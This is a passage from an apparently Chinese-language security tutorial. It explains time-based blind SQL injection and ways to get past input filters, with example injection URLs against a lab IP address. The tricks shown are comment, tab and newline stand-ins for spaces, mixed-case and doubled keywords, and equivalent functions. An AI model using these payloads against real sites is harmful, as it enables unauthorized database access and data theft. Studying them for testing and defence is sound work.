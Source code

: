 时间型盲注与布尔型盲注的语句构造过程类似，通常在布尔型盲注表达式的基础上使用IF语句加入延时语句来构造，由于时间型盲注耗时较大，通常利用脚本工具来执行，在手工利用的过程中较少使用。

**时间类型盲注的注意事项**

1. 通常使用sleep()等专用的延时函数来进行时间盲注，特殊情况下也可以使用某些耗时较高的操作代替这些函数。
2. 为了提高效率，通常在表达式判断为真时执行延时语句。
3. 时间盲注语句拼接时无特殊要求，保证语法正确即可。

**SQL注入绕过**

**空格过滤绕过**

/**/绕过

MySQL数据库中可以用/**/（注释符）来代替空格，将空格用注释符代替后，SQL语句就可以正常运行。例如：

http://192.168.40.1/index.php?id=1/**
/1=2/**
/union/**
/select/**/1,2,database()

**制表符绕过**

在MySQL数据库中可以用制表符来代替空格，将空格用制表符代替后，SQL语句就可以正常运行。制表符是不可见的，在URL传输中需要编码，其URL编码为%09。例如：

http://192.168.40.1/index.php?id=1%091=2%09union%09select%091,2,database()

**换行符绕过**

MySQL数据库支持换行执行SQL语句，可以利用换行符代替空格，换行符也是不可见字符，其URL编码为%0a。

http://192.168.40.1/index.php?id=1%0a1=2%0aunion%0aselect%0a1,2,database()

**大小写绕过**

根据应用程序的过滤规则中可能存在过滤不完整或者之过滤小写或者大写的情况，此时我们就可以利用大小写混写。

http://192.168.40.1/index.php?id=1 and 1=2 union seLeCt 1,2,database()

**双写关键字绕过**

测试代码如下：

http://192.168.40.1/index.php?id=1 and 1=2 union seselectlect
1,2,database()

**等价函数字符替换绕过**

　　1.用like或in代替=

http://192.168.40.1/index.php?id=1 and 1 like 1

　　2.等价函数

sleep函数可以用benchmark函数代替。 ascii函数可以用hex、bin函数代替

ref：https://blog.csdn.net/m0_56822024/article/details/125685506





## 协议
